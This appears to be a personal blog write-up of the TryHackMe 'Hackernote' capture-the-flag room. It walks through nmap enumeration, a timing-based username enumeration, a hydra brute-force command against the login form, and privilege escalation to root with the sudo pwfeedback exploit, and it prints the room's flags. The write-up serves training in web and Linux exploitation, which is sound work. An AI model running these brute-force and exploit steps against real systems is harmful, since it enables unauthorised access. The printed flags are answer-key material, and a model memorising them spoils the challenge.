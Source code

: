 ```yaml
---
title: "Hackernote"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="hackernote.png" alt="hackernote" style="width: 200px;" >}}

A nice room that try to be realistic about web exploitation

## Enumeration

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0njoI1MTN18O8+mhh7M4EpPVA2+5B3OsOtfyhpjYadmUYmS1LgxRSCAyUNFP3iKM7vmqbC9KalD6hUSWmorDoPCzgTuLPf6784OURkFZeZMmC3Cw3Qmdu348Vf2kvM0EAXJmcZG3Y6fspIsNgye6eZkVNHZ1m4qyvJ+/b6WLD0fqA1yQgKhvLKqIAedsni0Qs8HtJDkAIvySCigaqGJVONPbXc2/z2g5io+Tv3/wC/2YTNzP5DyDYI9wL2k2A9dAeaaG51z6z02l6F1zGzFwiwrFP+fopEjhQUa99f3saIgoq3aPOJ/QufS1SiZc6AqeD8RJ/6HWz10timm5A+n4J
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHKcOFLvSTrwsitMygOlMRDEZIfujX3UEXx9cLfrmkYnn0dHtHsmkcUUMc1YrwaZlDeORnJE5Z/NAH70GaidO2s=
|   256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGFFNuuI7oo+OdJaPnUbVa1hN/rtLQalzQ1vkgWKsF9z

80/tcp   open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS

8080/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - hackerNote
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Oh wow! A `Go` server! You don't always get those!
For the investigation we made a simple account and started looking around
For the user enumeration the `password reset` can be used but let's focus on the main thing
Introduction to `timing attack`:

As valid passwords seem to take a bit more time (hashing and processing) for a legitimate user, than wrong user's
We just make requests for multiple users (bruteforce)
And compare the times taken for every requests
The longest times (let's say more than 1 second, or any tolerable margin) are probably valid users
Obviously as we are not savages we will automate this with a script!

I chose the `python` exploit, as I am more comfortable with python

(Still Learning Golang)

It took me maaaad long time (for python is so fast)

pro tips: you can also filter the names.txt list as you know the username length

`└──╼ $awk 'length($1) == 5 { print $1 }' names.txt > reduced.txt`

Adapt the time delay correctly 1s should be enough (slow internet, so I had to filter out false-positives to get the right user)

anyway here we go!

```bash
└──╼ $python3 exploit.py
Making requests ...
Requests sent!
Time delta:  31.63563323020935  seconds
[REDACTED] is probably valid!
```
I redacted the user, because you have to suffer too

Now for the password attack we need a "custom" wordlist from the hint!
Get the suggested combinator and get a new wordlist

```bash
└──╼ $./combinator.bin colors.txt numbers.txt > custom_wordlist.txt
```

Then use that good ol' hydra (or your favorite login forms bruteforcer)

```bash
└──╼ $hydra -l [username goes here] -P custom_wordlist.txt 10.10.88.143 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).


Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-04 01:08:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.88.143:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.88.143   login: [username]   password: [REDACTED BOIII]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-04 01:10:12

```

Now we got access! login and grab ssh access too, then get in!

```bash
user@hackernote:~$ cat user.txt
thm{real_flag_for_free_no_tricks}
```

## Privilege escalation


Remember `pwdfeedback` ? no? google it!

you are even provided the exploit already, so let's just escalate bro


```bash
└──╼ $gcc pwfeedback.c -o exploit

└──╼ $scp ./exploit user@10.10.88.143:/home/user
user@10.10.88.143's password:
exploit
```
Now witness magic

```bash
user@hackernote:~$ ./exploit
[sudo] password for user:
Sorry, try again.
# id
uid=0(root) gid=0(root) groups=0(root),1001(user)

# cat root.txt
thm{true_root_flag_this_time_i_sweaar}

```

## Comments on realism:

>This room was designed to be more realistic and less CTF focused. The logic behind the timing attack is mentioned in OWASP's authentication section, and a fairly similar timing attack existed on OpenSSH, allowing username enumeration

>The privilege escalation for this box is a real world CVE vulnerability, and affected the default configurations of sudo on macOS, Linux Mint and ElementaryOS

I did that room mostly to see how realist it could go and practice password cracking
was not disappointed but I think this is not always real-life applicable

Anyway, that room was just great!
